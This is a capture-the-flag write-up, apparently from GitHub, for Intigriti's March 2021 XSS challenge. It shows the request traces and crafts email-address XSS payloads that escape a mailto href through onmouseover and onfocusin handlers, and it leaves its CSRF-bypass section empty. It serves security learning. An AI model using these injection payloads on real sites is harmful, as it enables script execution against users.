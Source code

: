 
Intigriti March XSS challenge

Problem Statement
----------------------
URL : https://challenge-0321.intigriti.io/

![image](https://user-images.githubusercontent.com/19681324/113403529-6c9c7c80-93c4-11eb-8f6f-b5aa5ee503e0.png)

Let's Pop an alert
------------------
At the bottom of the page there is an **Your notes:** section. 
![image](https://user-images.githubusercontent.com/19681324/113403778-d026aa00-93c4-11eb-88f6-7d793631fccc.png)

Check out the source of the html page
```html
  <div class="card-container">
         <form method="POST" action="./" id="update-notes">
            <div class="card-header">Your notes:<span id="actions"><a id="notes-save" href="#">save</a></span></div>
            <p id="notes-display" class="card-content" contenteditable="true">No notes saved.</p>
            <input type="hidden" name="csrf" value="6896be5ae9b23b85432afab717277824"/>
            <input type="hidden" id="notes-value"  name="notes" value=""/>
         </form>
      </div>
      <script>
          var _note = document.getElementById("notes-display").innerText;   // (1)
          document.getElementById("notes-display").onkeyup = function(e){   // (2)
            var note = document.getElementById("notes-display").innerText;
            if(note != _note){
              document.getElementById("notes-save").style.visibility = "visible";
            }
            else{
              document.getElementById("notes-save").style.visibility = "hidden";
            }
          }
          document.getElementById("notes-save").onclick = function(e){  // (3)
            document.getElementById('notes-value').value = document.getElementById('notes-display').innerText;
            this.closest('form').submit();
            return false;
          }
      </script>
   </body>
   <!-- page generated at 2021-04-02 09:36:09 --> 
</html>
```
Break down the source in different steps:
  - There is a form with id update-notes. Notable thing in the form is `<p>` tag with attribute `contenteditable="true"`, we will revisit this cause this important.
    - Form has two hidden input field: csrf , notes
    - csrf value 6896be5ae9b23b85432afab717277824 seems to be an MD5 value
    - ![image](https://user-images.githubusercontent.com/19681324/113405642-c6eb0c80-93c7-11eb-9e47-f29410a59178.png)
  - Script section
    - (1) declare _note and assing innerText of note-display paragraph
    - (2) onkeyup event on note-display check note-display paragraph innerText is changed, if yes then display the save button, else hide the save button
    - (3) on clicking the save button assign the innerText of notes-display to notes-value and submit the form.
  - one more interesting thing to note is the comment `<!-- page generated at 2021-04-02 09:36:09 --> ` at the bottom of the page

Changing the note and clicking on save will send a POST request and updated note will be reflected on the page
```html
POST / HTTP/1.1
Host: challenge-0321.intigriti.io
Connection: close
Content-Length: 58
Cookie: PHPSESSID=46c7eeb13d285bc57ef010c799372735

csrf=36cd9b23b082ae06c73c73e79a6dc64f&notes=No+notes+saved
```
If we add  special character like <> , & these were being html escaped in the response from the server, however charaters like !, #, $, @, ^,*,(,),',"  were not html escaped
```html
POST / HTTP/1.1
Host: challenge-0321.intigriti.io
Cookie: PHPSESSID=46c7eeb13d285bc57ef010c799372735

csrf=504d6da7a099d980ac787f87850626b4&notes=No+notes+saved+%3C%3E%3C%3C%21%23%24%40%5E%26*%23%28%23%29+%27%22%2C
```
Response

```html
     <div class="card-container">
         <form method="POST" action="./" id="update-notes">
            <div class="card-header">Your notes:<span id="actions"><a id="notes-save" href="#">save</a></span></div>
            <p id="notes-display" class="card-content" contenteditable="true">No notes saved &lt;&gt;&lt;&lt;!#$@^&amp;*#(#) '",</p>
            <input type="hidden" name="csrf" value="be98377d284ac8c558ac9c8303f50ab1"/>
            <input type="hidden" id="notes-value"  name="notes" value=""/>
         </form>
      </div>
```

One interesting transformation of response occure while updating note-display to an url or email
```html
POST / HTTP/1.1
Host: challenge-0321.intigriti.io
Cookie: PHPSESSID=46c7eeb13d285bc57ef010c799372735

csrf=e15e6d924554f427fd53ff9b5b319069&notes=https://www.google.com+abc@def.com
```
Response
```html
<p id="notes-display" class="card-content" contenteditable="true">
  <a href="https://www.google.com " target="_blank">https://www.google.com </a>
  <a href="mailto:abc@def.com">abc@def.com</a>
</p>
```
URL and email addresses are turning into an anchor tag.
![image](https://user-images.githubusercontent.com/19681324/113423650-7df97f00-93ec-11eb-8e96-b8fda73ef182.png)

However invalid email addresses and URL were not getting transformed e.g. invalid url- https:/www.google.com   invalid email - @soemthing.com
```html
  <p id="notes-display" class="card-content" contenteditable="true">
    https:/www.google.com  @soemthing.com
  </p>
```

Tried a lot with url to escape the anchor tag and alert the flag, but didn't work. 
Doing a simple google search with the text xss email payload , first result is https://brutelogic.com.br/blog/xss-limited-input-formats/  which suggest a xss payload to use is `"<svg/onload=alert(1)>"@x.y` , bruteforce tweets this as well
![image](https://user-images.githubusercontent.com/19681324/113426701-79839500-93f1-11eb-8a37-c33d39ec712b.png)

but <> characters are escaped by the server side
```html
<a href="mailto:"&lt;svg/onload=alert(1)&gt;"@x.y">"&lt;svg/onload=alert(1)&gt;"@x.y</a>
```
however " are not escaped, as we can see avobe we came out of href attribute. So changing the payload slightly to `"onmouseover=alert('flag{THIS_IS_THE_FLAG}');"@x.y` we get a response like this
```html
<p id="notes-display" class="card-content" contenteditable="true">
<a href="mailto:"onmouseover=alert('flag{THIS_IS_THE_FLAG}');"@x.y">"onmouseover=alert('flag{THIS_IS_THE_FLAG}');"@x.y</a>
```
which gets us an alert 
![image](https://user-images.githubusercontent.com/19681324/113427645-0a0ea500-93f3-11eb-93b3-9571e871e645.png)

However this involves user interaction, to avoid user interaction we hope over to the burpsuite xss cheat sheet.https://portswigger.net/web-security/cross-site-scripting/cheat-sheet  we have two specific payloads which works in chrome, does not work in firefox though
![image](https://user-images.githubusercontent.com/19681324/113430130-447a4100-93f7-11eb-915b-925d8532a2d1.png)

and both of these payloads can be triggered by using #x ( id used in the payload ) in the url. so the resultant payload would be `"id='x'tabindex='1'onfocusin='alert(flag.innerText)'"@x.y`

It's not solved yet, as mentioned in the solution section of the CTF self-xss are not allowed. so we have to trick someone into clicking a link and triggering the xss. but there is one problem. There is CSRF protection. Using an invalid csrf token gives us a 403 forbidden response and csrf token changes each time we send a request to the server
```html
HTTP/1.1 403 Forbidden
Server: nginx/1.17.10
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
```

Bypassing CSRF
-------------




Things i tried but didn't work
------------------------------

tried `javascript://%0Aalert(1)`
tried `"<svg/onload=alert(1)>"@x.y`


Reference
--------------
- https://holme-sec.medium.com/timestamps-and-weird-emails-a-solution-for-intigritis-0321-challenge-849dfee9e798
- https://infosecwriteups.com/intigriti-xss-challenge-0321-472ae0a48254
- https://blog.isiraadithya.com/intigriti-0321-xss-challenge-writeup/
